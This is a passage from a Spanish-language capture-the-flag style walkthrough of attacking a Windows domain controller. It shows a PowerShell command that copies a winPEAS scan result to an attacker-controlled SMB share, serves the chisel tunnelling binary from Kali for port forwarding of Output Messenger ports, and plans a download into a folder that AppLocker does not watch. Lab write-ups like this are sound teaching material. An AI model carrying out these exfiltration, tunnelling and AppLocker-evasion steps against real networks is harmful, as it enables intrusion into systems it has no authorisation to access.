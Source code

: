 Copiaremos el archivo `result.txt` en el recurso compartido SMB que hemos levantado desde Kali.

```powershell
PS C:\Windows\System32\spool\drivers\color> copy result.txt \\10.10.16.5\smbFolder\result.txt
```

Revisando el resultado obtenido del escaneo de `winPEAS`, verificamos que existen varios puertos en escucha sobre la aplicación de `Output Messenger`. Lo cual nos hace pensar que la aplicación está en ejecución en el DC actualmente.

<figure><img src="../../../.gitbook/assets/3781_vmware_3etBeOfUpS.png" alt=""><figcaption></figcaption></figure>

### Performing a Windows port forwarding to my Kali machine

Disponemos de los siguientes puertos que utiliza la aplicación `Output Messenger`, nuestro objetivo será compartir estos puertos internos del DC hacía nuestra Kali Linux mediante _**Port Forwarding**_.

{% hint style="success" %}
14118 14119 14121 14122 14123 14125 14126 14127 14128 14130 14406
{% endhint %}

En nuestra Kali, deberemos de disponer de los binario de chisel para UNIX y Windows. El binario de `chisel.exe` lo dberemos de compartir en el Domain Controller a través de un servidor web.

```bash
❯ ls -l chisel*
.rwxr-xr-x root root 8.9 MB Fri Jan 17 22:34:37 2025  chisel
.rw-r--r-- root root 9.3 MB Fri Jan 17 22:34:34 2025  chisel.exe

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, descargaremos el binario `chisel.exe` en la ruta donde el AppLocker no nos lo detecte.
